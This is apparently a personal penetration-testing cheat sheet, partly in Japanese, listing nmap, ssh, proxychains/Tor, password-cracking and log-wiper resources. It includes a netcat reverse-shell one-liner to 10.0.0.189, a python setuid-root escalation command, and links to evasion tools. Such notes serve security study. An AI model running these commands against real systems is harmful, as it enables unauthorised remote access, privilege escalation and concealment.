 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### Tor Browser

https://www.torproject.org/

[How To Access The Dark Web: What Is Tor And How Do I Access Dark Websites?](https://www.alphr.com/technology/1002667/how-to-access-the-dark-web-what-is-tor-and-how-do-i-use-it/#:~:text=Tor%20is%20an%20anonymity%20network,re%20logged%20into%20a%20website.)

[How To Use Tor Browser: Everything You MUST Know in 2021](https://www.vpnmentor.com/blog/tor-browser-work-relate-using-vpn/)

[Tor over VPN: Is it useful if you’re not a whistleblower?](https://cybernews.com/what-is-vpn/tor-over-vpn/)

### proxychains & tor

https://linuxhint.com/proxychains-tutorial/

https://www.geeksforgeeks.org/how-to-setup-proxychains-in-linux-without-any-errors/

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Privilege escalation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://github.com/optiv/ScareCrow

https://github.com/cytopia/pwncat

https://github.com/Cisco-Talos/clamav

https://app.netlas.io

https://www.exabeam.com/

https://www.adaptive-shield.com/
